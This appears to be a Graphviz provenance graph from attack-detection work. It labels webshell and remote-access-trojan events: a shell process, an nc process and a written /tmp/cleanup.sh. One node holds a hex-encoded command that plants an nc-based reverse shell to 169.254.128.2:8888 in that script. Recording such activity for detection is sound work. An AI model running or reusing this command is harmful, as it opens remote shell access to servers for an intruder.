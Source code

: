 digraph graph1 {
node [shape = Mrecord];
table171 [label = "{<head>processname: nc | pid: 1377 | cmdline: nc 169.254.128.2 8888 | starttime: 1618986602273000000 | enddtime: -1 | label: PT9 Execute any command.(webshell) timestamp: 1653025665015 | label: PT8 The uploaded file is read.(webshell) timestamp: 1653025665015 | label: PT10 Shell command.(rat) timestamp: 1618986602269000000}", color = red];
table157 [shape = record, label = "{<head>filename: /tmp/cleanup.sh | label: FT9 The File is written by webshell. timestamp: 1653025665015}"];
table162 [label = "{<head>processname: sh | pid: 1368 | cmdline: /bin/sh -c 6364202f7661722f7777772f68746d6c3b6563686f20276d6b6669666f202f746d702f746262616a6f3b206e63203136392e3235342e3132382e32203838383820303c2f746d702f746262616a6f207c202f62696e2f7368203e2f746d702f746262616a6f20323e26313b726d202f746d702f746262616a6f273e3e2f746d702f636c65616e75702e73683b6563686f205b535d3b7077643b6563686f205b455d | starttime: 1618986281293000000 | enddtime: 1618986281293000000 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000 | label: PT9 Execute any command.(webshell) timestamp: 1653025665015 | label: PT10 Shell command.(rat) timestamp: 1618986281293000000}"];
table162 -> table157[label = "action: 1  PT9->FT9"];
table171 -> table157[label = "action: 0  FT9->PT8"];
}
